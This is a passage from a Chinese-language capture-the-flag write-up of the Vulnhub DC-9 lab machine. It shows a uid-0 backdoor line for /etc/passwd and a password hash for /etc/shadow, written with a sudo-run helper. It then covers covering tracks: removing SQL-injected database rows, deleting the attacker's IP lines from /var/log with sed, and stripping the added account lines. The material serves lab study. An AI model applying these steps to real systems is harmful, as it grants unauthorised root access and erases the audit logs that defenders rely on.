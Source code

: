 

```shell
#写入到/tmp/final2_user中，然后通过sudo执行test，写入到/etc/passwd中
final2:x:0:0:final2:/root:/bin/bash

#写入到/tmp/final2_pass中，然后通过sudo执行test，写入到/etc/shadow中
final2:$6$lFbb8QQt2wX7eUeE$S63c0lmQQPy9FpNzpz5xy688Ur6ZlDQq62BGgeB1tSp5OssLCRc1VhOAIzORv4FplJbZdbR.hohEqY9LCFlmD/:18259:0:99999:7:::
#这里的加密密码，是上面生成的，就直接使用，知道方法即可
```

![](D:\stu\vulnhub\DC靶场\pic-9\38.jpg)

查看`flag`

![](D:\stu\vulnhub\DC靶场\pic-9\39.jpg)

# 清理痕迹

这里清理痕迹不同于以往，因为存在数据库、ssh爆破、以及敏感文件的修改了

## 删除在数据库添加的数据

首先是在进行`sql`注入时，插入的数据，这里因为靶机重装的原因，导致数据重置，不过方法说一下

首先找到连接数据库的信息

![](D:\stu\vulnhub\DC靶场\pic-9\40.jpg)

然后剩下的就是删除表中的指定内容，这里因为之前确定是在`staff`数据库中，并且在表中`StaffDetails`存储着相关信息，所以重点删除这个表中的指定数据即可

![](D:\stu\vulnhub\DC靶场\pic-9\41.jpg)

## 清理日志

日志文件主要在`/var/log`中，可以使用`sed`删除指定kali的`ip`的行

![](D:\stu\vulnhub\DC靶场\pic-9\42.jpg)

## 清理敏感文件

删除添加在`/etc/passwd`文件中的用户

```shell
sed -i '$d' /etc/passwd
#$表示最后一行，d表示删除
#一般添加的都是在文件的最后，可以自己查看后，根据实际情况去删除
```

删除添加在`/etc/shadow`文件中的密码

```shell
sed -i '$d' /etc/shadow
#与上面一样，一般也是在文件的最后进行添加的
```
